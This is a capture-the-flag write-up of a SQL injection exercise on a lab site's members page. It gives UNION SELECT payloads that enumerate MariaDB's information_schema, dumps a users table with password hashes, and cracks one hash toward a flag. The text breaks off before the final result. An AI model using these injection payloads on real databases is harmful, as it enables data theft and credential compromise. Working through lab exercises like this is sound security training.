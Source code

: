 # SQL Injection

The members page allows us to view a user based off of his id. This should set off alarm bells as this probably indicates a SQL request, especially when viewing the result.
Indeed, all SQL lines contain an id, and then additional information as defined by the admin.

```
ID: 1 
First name: one
Surname : me
```

## The Vuln

When testing with different inputs, we quickly learn that this is a MariaDB database. This is very useful info as this can help us craft or SQL payload. 
Before anything else, we need to see what tables are in the database as well as the columns in each table.

Thankfully we MariaDB has some useful tables that we can always access called "information_schema.tables" and "information_schema.columns"

As we only have two columns we can show at a time, let's first get all the table names, and then decide which ones to investigate further:

```
1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables
1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS
```

Just taking a look at the tables, we see some interesting ones:
```
ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: db_default
Surname : 2

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: users
Surname : 4

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: guestbook
Surname : 1

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: list_images
Surname : 5

ID: 1 UNION SELECT TABLE_NAME, TABLE_ROWS FROM information_schema.tables 
First name: vote_dbs
Surname : 5
```
---
Let's see what kind of things they are hiding:

|db_default|||
|:-:|:-:|:-:|
|id|username|password|

|users||||||||
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
|user_id|first_name|last_name|town|country|planet|Commentaire|countersign|
|1|one|me|Paris|France|EARTH|Je pense, donc je suis|2b3366bcfd44f540e630d4dc2b9b06d9|
|2|two|me|Helsinki|Finlande|Earth|Aamu on iltaa viisaampi.|60e9032c586fb422e2c16dee6286cf10|
|3|three|me|Dublin|Irlande|Earth|Dublin is a city of stories and secrets.|e083b24a01c483437bcf4a9eea7c1b4d|
|5|Flag|GetThe|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28|


|guestbook|||
|:-:|:-:|:-:|
|id_comment|comment|name|

|list_images||||
|:-:|:-:|:-:|:-:|
|id|url|title|comment|

|vote_dbs||||
|:-:|:-:|:-:|:-:|
|id_vote|vote|nb_vote|subject|

---
We can't seem to access the other tables beside users at the moment. Querys to the other tables results in
```
Table 'Member_Sql_Injection.'table_name'' doesn't exist
```

Following the instructions in the commentaire section, we decrypt "5ff9d0165b4f92b14994e5c685cdce28", which is the MD5 hash of "FortyTwo".
making it lowercase and hashing it in sha256 results in the following:
